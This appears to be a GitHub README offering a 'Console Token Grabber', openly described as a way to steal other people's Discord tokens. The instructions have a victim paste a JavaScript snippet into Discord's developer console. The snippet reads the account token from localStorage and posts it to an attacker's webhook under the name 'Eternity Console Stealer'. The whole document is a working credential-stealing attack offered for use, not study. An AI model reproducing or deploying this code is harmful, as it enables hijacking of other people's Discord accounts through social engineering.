 ## 🔐 Basic Console Token Grabber
• **It's a simple "Console Token Grabber" that you can use to steal other people's Discord Token.**

<!--<h3 align="center">
![image](https://cdn.discordapp.com/attachments/941755353035579422/951879632544747540/Unbenannt-1.png)
</h3> -->

![image](https://cdn.discordapp.com/attachments/941755353035579422/951879632544747540/Unbenannt-1.png)

## 🔐 How to use

• Go ond Discord and press CTRL + SHIFT + I and paste the Script in the console.

```js
(function() {
    window.dispatchEvent(new Event('beforeunload'));
    var x = new XMLHttpRequest;
    x.open("POST", 'YOUR **WEBHOOK**'), x.setRequestHeader("Content-type", "application/json");
    var y = {
        username: "Eternity Console Stealer",
        avatar_url: "https://cdn.discordapp.com/attachments/941755353035579422/947642580521340928/1.png",
        content: "@everyone New Log!",
        embeds: [{
            color: "#8800ff",
            description: `Token: ${window.open().localStorage.token}`,
        }]
    };

    x.send(JSON.stringify(y));
    w.close()
}());


